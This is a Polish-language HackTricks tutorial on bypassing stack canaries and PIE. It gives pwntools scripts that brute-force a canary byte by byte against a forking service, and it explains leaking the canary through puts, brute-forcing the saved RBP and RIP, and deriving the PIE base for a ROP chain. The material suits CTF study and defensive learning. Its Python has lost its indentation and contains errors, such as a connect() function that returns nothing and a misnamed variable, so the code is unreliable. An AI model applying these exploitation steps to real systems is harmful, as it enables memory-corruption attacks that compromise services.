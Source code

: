 <details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


**Jeśli masz do czynienia z binarnym plikiem chronionym przez canary i PIE (Position Independent Executable), prawdopodobnie musisz znaleźć sposób na ich obejście.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Należy zauważyć, że **`checksec`** może nie wykryć, że binarny plik jest chroniony przez canary, jeśli został on statycznie skompilowany i nie jest w stanie zidentyfikować funkcji.\
Jednak można to zauważyć ręcznie, jeśli zauważysz, że wartość jest zapisywana na stosie na początku wywołania funkcji i ta wartość jest sprawdzana przed wyjściem.
{% endhint %}

# Bruteforce canary

Najlepszym sposobem na obejście prostego canary jest, jeśli binarny plik jest programem, który **tworzy procesy potomne za każdym razem, gdy nawiązujesz nowe połączenie** z nim (usługa sieciowa), ponieważ za każdym razem, gdy się z nim łączysz, **używany będzie ten sam canary**.

Najlepszym sposobem na obejście canary jest po prostu **brute-force'owanie go znak po znaku**, a można ustalić, czy odgadnięty bajt canary jest poprawny, sprawdzając, czy program się zawiesił czy kontynuuje swoje normalne działanie. W tym przykładzie funkcja **brute-force'uje 8-bajtowy canary (x64)** i rozróżnia między poprawnie odgadniętym bajtem a błędnym bajtem, po prostu **sprawdzając**, czy serwer **wysyła odpowiedź** (innym sposobem w **innej sytuacji** może być użycie **try/except**):

## Przykład 1

Ten przykład jest zaimplementowany dla 64-bitów, ale można go łatwo zaimplementować dla 32-bitów.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## Przykład 2

To jest zaimplementowane dla 32 bitów, ale można to łatwo zmienić na 64 bity.\
Należy również zauważyć, że w tym przykładzie **program oczekuje najpierw bajtu wskazującego rozmiar wejścia**, a następnie ładunku.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# Wyświetlanie Canary

Innym sposobem na obejście canary jest jego **wyświetlenie**.\
Wyobraź sobie sytuację, w której **podatny na przepełnienie stosu program** może wykonać funkcję **puts**, która **wskazuje** na **część** przepełnionego stosu. Atakujący wie, że **pierwszy bajt canary to bajt nullowy** (`\x00`), a reszta canary to **losowe** bajty. Następnie atakujący może stworzyć przepełnienie, które **nadpisuje stos aż do pierwszego bajtu canary**.\
Następnie atakujący **wywołuje funkcję puts** na środku payloadu, co spowoduje **wyświetlenie całego canary** (z wyjątkiem pierwszego bajtu nullowego).\
Dzięki tym informacjom atakujący może **stworzyć i wysłać nowy atak**, znając canary (w tej samej sesji programu).

Oczywiście, ta taktyka jest bardzo **ograniczona**, ponieważ atakujący musi być w stanie **wyświetlić** zawartość swojego payloadu, aby **wyciec canary**, a następnie być w stanie stworzyć nowy payload (w tej samej sesji programu) i **wysłać** **rzeczywiste przepełnienie bufora**.\
Przykład CTF: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

Aby obejść PIE, musisz **wyciec pewien adres**. Jeśli binarny plik nie wycieka żadnych adresów, najlepiej jest **przełamać RBP i RIP zapisane na stosie** w podatnej funkcji.\
Na przykład, jeśli binarny plik jest chroniony zarówno przez **canary**, jak i **PIE**, możesz rozpocząć próby odgadywania canary, a następnie **następne** 8 bajtów (x64) będą zapisanym **RBP**, a **następne** 8 bajtów będą zapisanym **RIP**.

Aby przeprowadzić próby odgadywania RBP i RIP z binarnego pliku, możesz ustalić, że poprawny odgadnięty bajt jest prawidłowy, jeśli program coś wyświetla lub po prostu nie zawiesza się. **Ta sama funkcja**, która została użyta do prób odgadywania canary, może być użyta do prób odgadywania RBP i RIP:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## Uzyskaj adres bazowy

Ostatnią rzeczą, którą musisz zrobić, aby pokonać PIE, jest obliczenie **użytecznych adresów na podstawie wyciekniętych** adresów: **RBP** i **RIP**.

Na podstawie **RBP** możesz obliczyć **miejsce, w którym zapisujesz swoją powłokę na stosie**. Może to być bardzo przydatne, aby wiedzieć, gdzie zamierzasz zapisać ciąg _"/bin/sh\x00"_ wewnątrz stosu. Aby obliczyć odległość między wyciekniętym RBP a twoim kodem powłoki, wystarczy ustawić **punkt przerwania po wycieku RBP** i sprawdzić, **gdzie znajduje się twój kod powłoki**, a następnie obliczyć odległość między kodem powłoki a RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Z **RIP** można obliczyć **adres bazowy binarnego PIE**, który będzie potrzebny do utworzenia **poprawnego łańcucha ROP**.\
Aby obliczyć adres bazowy, wystarczy wykonać polecenie `objdump -d vunbinary` i sprawdzić ostatnie adresy rozkładu:

![](<../../.gitbook/assets/image (145).png>)

Na przykładzie widać, że potrzebne jest tylko **1,5 bajta**, aby zlokalizować cały kod, a więc adres bazowy w tej sytuacji będzie to **wycieknięty RIP, ale zakończony na "000"**. Na przykład, jeśli wyciekł _0x562002970**ecf**_, to adres bazowy to _0x562002970**000**_.
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
